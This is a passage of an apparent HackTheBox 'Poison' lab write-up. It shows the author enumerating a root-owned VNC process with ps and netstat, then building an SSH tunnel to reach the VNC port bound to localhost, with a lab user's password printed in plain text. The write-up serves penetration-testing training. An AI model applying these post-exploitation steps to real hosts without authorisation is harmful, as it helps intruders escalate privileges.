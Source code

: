 Oh? There is a `VNC` process running as root!

Lets grab more information about this process.

```bash
charix@Poison:~ % ps -auxww | grep vnc
root   529   0.0  0.9  23620  8872 v0- I    03:28    0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
charix 873   0.0  0.0    412   328  1  R+   04:54    0:00.00 grep vnc
```

Based on the `-rfbport` flag, it seems that the `VNC` process is running on port `5901`.

Lets verify this with `netstat`!

```bash
charix@Poison:~ % netstat -an 
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.61099      10.10.14.2.1234        CLOSE_WAIT
tcp4       0      0 10.10.10.84.80         10.10.14.2.51240       CLOSE_WAIT
tcp4       0      0 10.10.10.84.16068      10.10.14.2.1234        CLOSE_WAIT
tcp4       0      0 10.10.10.84.80         10.10.14.2.59216       CLOSE_WAIT
tcp4       0      0 10.10.10.84.35037      10.10.14.2.1234        CLOSE_WAIT
tcp4       0      0 10.10.10.84.80         10.10.14.2.46732       CLOSE_WAIT
tcp4       0      0 10.10.10.84.22         10.10.14.2.37036       ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.*      
...
```

Since we can’t access the VNC software from our machine, we have to use port forwarding to grant us access.

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# ssh -L 9999:127.0.0.1:5901 charix@10.10.10.84
(charix@10.10.10.84) Password for charix@Poison:Charix!2#4%6&8(0
...

- New Terminal - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# netstat -an | grep LISTEN
tcp        0      0 127.0.0.1:9999          0.0.0.0:*               LISTEN      
tcp6       0      0 ::1:9999                :::*                    LISTEN     
...
```
